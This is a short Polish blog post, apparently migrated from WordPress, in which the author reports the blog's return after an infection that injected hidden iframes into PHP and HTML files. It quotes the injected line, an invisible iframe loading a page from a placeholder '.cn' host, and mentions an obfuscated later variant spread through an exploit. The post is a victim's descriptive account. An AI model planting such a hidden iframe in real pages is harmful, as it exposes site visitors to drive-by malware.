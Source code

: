 ```yaml
--- 
layout: post
title: "Wordpress 2.8.5, powr\xC3\xB3t, o infekcji s\xC5\x82\xC3\xB3w kilka"
category: wordpress
wordpress_id: 219
wordpress_url: http://kwpolska.co.cc/?p=219
---
```

**Nie tylko o powrocie bloga. Informacje o Ruskiej infekcji ramkowej (.cn).** 
Po kilkudniowej nieobecności spowodowanej Ruską Infekcją Ramkową blog powraca do życia. Wszystkie wpisy wróciły na swoje miejsca, blog zmienił wygląd. Sam silnik został zaktualizowany do wersji 2.8.5. Ale to nie jest najważniejsza część wpisu.

Infekcja schowanej ramki, ochrzczona przeze mnie jako **Ruska Infekcja Ramkowa** zmieniła się. Zaczęło się od wirusa edytującego wszystkie pliki .php, .html, .phpX, .shtml, .phtml i wiele więcej w celu doklejenia ramki:

`<iframe src="http://X.cn/img/index.php" style="display: none;" />` 
Tej wersji zapobiegało się bardzo prosto - wystarczyło czyszczenie plików ręcznie (lub przywrócenie z backupu) i komputera. Infekcja była groźna wszędzie i wszędzie miała taki sam charakter. Przeglądarki jednakże blokują złośliwy kod. Następna wersja jest już gorsza. Infekcję rozpoznają mądrzejsze przeglądarki. Kod HTML zaczyna się od

`/* Warning: Opera Only */` 
- potem znajdował się zaszyfrowany skrypt. Miał on po rozszyfrowaniu taką samą postać, jak listing 1, ale jego jedyną drogą rozprzestrzeniania się był nie tylko schemat A (KTÓRY ZABRALI), infekcja na mój serwer dostała się przez exploit (lukę). Co z wirusem będzie dalej okaże się w najbliższej przyszłości.
